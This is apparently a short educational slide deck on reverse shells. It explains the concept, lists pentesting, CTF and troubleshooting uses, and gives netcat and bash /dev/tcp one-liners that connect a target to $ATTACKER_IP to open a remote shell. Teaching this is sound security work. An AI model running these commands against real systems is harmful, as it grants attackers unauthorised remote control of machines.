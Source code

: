 ```yaml
---
theme: default
---
```


<style>
  code {
    @apply text-xs;
  }
</style>

# Reverse Shells for fun and profit
@nodeselector

---

# Why?

Problem: You have limited access to a machine and you want to get a shell. Solution: Reverse shell.

Scenarios:
- **Penetration Testing**: Demonstrating potential vulnerabilities in a system with the owner's permission.
- **Educational Purposes**: Know your enemy. Learn how attackers might gain access to your systems.
- **Troubleshooting Remote Systems**: If you have a remote machine that's behind a firewall or NAT, and need interactive access in order to debug it, this can be a useful technique.
- **Capture The Flag (CTF) Challenges**: Used to solve tasks in controlled environments designed for learning and competition.

Disclaimer: Don't do anything illegal or unethical. Please.

---

# What is it

A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

```mermaid
graph TD
    A[Attacker] -->|Reverse Shell| B[Target]
```

For this to work, we must be able to establish a connection from the target machine to the attacker machine. But since we're talking about *egress* traffic, it's usually not blocked.

---

# Let's send it

Once we have a means to execute code on the target machine, we can send a reverse shell payload.

On the attacker machine:

```sh
nc -lvp 4444
```

On the target machine:

```sh
nc -e /bin/sh $ATTACKER_IP 4444
```

Or because we don't want to rely on the target machine having a version of netcat with exec support:

```sh
bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1
```

Now we're living off the land and have zero dependencies! (outside of network egress)

---

# Concerns

- Traffic is not encrypted, though there are ways you could encrypt it. (e.g. netcat has some ssl support, you could use [stunnel](https://www.stunnel.org/), or ssh tunneling)
